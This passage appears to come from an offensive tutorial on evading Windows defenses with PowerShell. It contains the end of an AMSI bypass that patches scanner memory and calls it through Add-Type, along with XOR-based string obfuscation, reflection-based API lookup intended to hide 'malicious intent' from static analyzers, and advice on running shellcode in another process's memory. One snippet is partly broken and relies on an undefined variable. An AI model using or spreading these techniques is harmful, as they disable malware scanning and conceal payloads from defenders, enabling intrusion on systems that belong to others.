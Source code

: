 ```powershell

        // Patch the memory to return 1 (bypassed)
        Marshal.Copy(new byte[] { 0x31, 0xC0, 0xC3 }, 0, addr, 3);

        VirtualProtect(addr, size, oldProtect, out oldProtect);
    }
}
"@

Add-Type $amsiBypass
[Amsi]::Patch()
```

### 2. **String Obfuscation with Dynamic Decryption:**

Encrypt strings in your script, such as function names, using a custom algorithm, and decrypt them only at runtime.

Example:

```powershell
function DecryptString($encryptedString) {
    $encryptedBytes = [System.Convert]::FromBase64String($encryptedString)
    $key = 42
    $decryptedBytes = $encryptedBytes | ForEach-Object { $_ -bxor $key }
    return [System.Text.Encoding]::UTF8.GetString($decryptedBytes)
}

$encryptedKernel32 = "encryptedStringForKernel32"
$kernel32 = DecryptString $encryptedKernel32
```

### 3. **Avoiding Direct API Calls:**

Replace direct API calls with indirect ones using reflection or delegate invocation. This makes it harder for static analyzers to detect malicious intent.

Example:

```powershell
$kernel32 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer([IntPtr]::Zero, [Type]::GetType("System.String"))  # Dummy initialization

$GetProcAddress = $kernel32.GetMethod("GetProcAddress", [Type[]]@([IntPtr], [String]))

$procAddress = $GetProcAddress.Invoke($null, @($GetModuleHandle.Invoke($null, "kernel32"), "VirtualAlloc"))
```

### 4. **Inline Execution:**

Instead of saving and executing your shellcode from memory in a traditional manner, use inline execution techniques such as loading the shellcode in a separate process’s memory.
